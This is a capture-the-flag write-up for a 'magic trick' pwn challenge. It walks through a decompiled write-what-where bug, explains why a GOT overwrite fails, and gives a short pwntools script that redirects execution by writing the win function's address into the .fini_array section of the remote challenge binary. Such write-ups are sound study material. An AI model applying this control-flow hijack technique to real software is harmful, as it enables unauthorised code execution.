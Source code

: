 # magic trick
### submited and solved by revolution

```c
unsigned __int64 magic()
{
  __int64 v1; // [rsp+0h] [rbp-20h] BYREF
  _QWORD *v2; // [rsp+8h] [rbp-18h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What do you want to write");
  __isoc99_scanf("%llu", &v1);
  puts("Where do you want to write it");
  __isoc99_scanf("%llu", &v2);
  puts("thanks");
  *v2 = v1;
  return __readfsqword(0x28u) ^ v3;
}
```

Lets devide the decompiled code of the given binary code into two requests and an action: a request for a number indicating things to write, a request indicating a number indicating a place to write to and the writing action itself. (The requests are asking for a long long unsigned which its length is 8 bytes, perfect for representing addresses of the binary).

In this kind of challenges its common that writing to the got (the section containing the used dynamicaly linked functions addresses) is the solution as writing to this section can cause a code redirection to a function we want for example if we will change the got puts address at the next time puts will get called the code will be be redirected.

This solution does not work because of the simple fact that no function which is refrenced in the got get called after the writing action, hence we need to find some where else in the binary that will get called after the writing, I found the 
.finiarray section that contains pointers to functions:

```
The sections .pre_initarray, .init_array and .fini_array provide arrays of runtime pre-initialization, initialization, and termination functions, respectively. When creating a dynamic object, the link-editor identifies these arrays with the .dynamic tag pairs DT_PREINIT_[ARRAY/ARRAYSZ], DT_INIT_[ARRAY/ARRAYSZ], and DT_FINI_[ARRAY/ARRAYSZ] accordingly. These tags identify the associated sections so that the sections can be called by the runtime linker. A pre-initialization array is applicable to dynamic executables only.
```
In our binary it looks like this:


```
.fini_array:0000000000600A00 _fini_array     segment qword public 'DATA' use64
.fini_array:0000000000600A00                 assume cs:_fini_array
.fini_array:0000000000600A00                 ;org 600A00h
.fini_array:0000000000600A00 __do_global_dtors_aux_fini_array_entry dq offset __do_global_dtors_aux
.fini_array:0000000000600A00                                         ; DATA XREF: __libc_csu_init+13↑o
.fini_array:0000000000600A00 _fini_array     ends                    ; Alternative name is '__init_array_end'
```

given this address we can write to it the win address and when the process will run the .finiarray list it will run this as well, and there for this exploit:

```python
from pwn import *

rem = 1

if(rem):
	p = remote("dctf-chall-magic-trick.westeurope.azurecontainer.io", 7481)
else:
	p = process("./magic_trick")
	input("ready... ")

print(p.recvuntil("What do you want to write").decode())
p.sendline(str(int(0x0000000000400667))) # win

print(p.recvuntil("Where do you want to write it").decode())
p.sendline(str(int(0x0000000000600A00))) #fini array

p.interactive()
```

running this gives the following results:

![cool results](img.png "results")










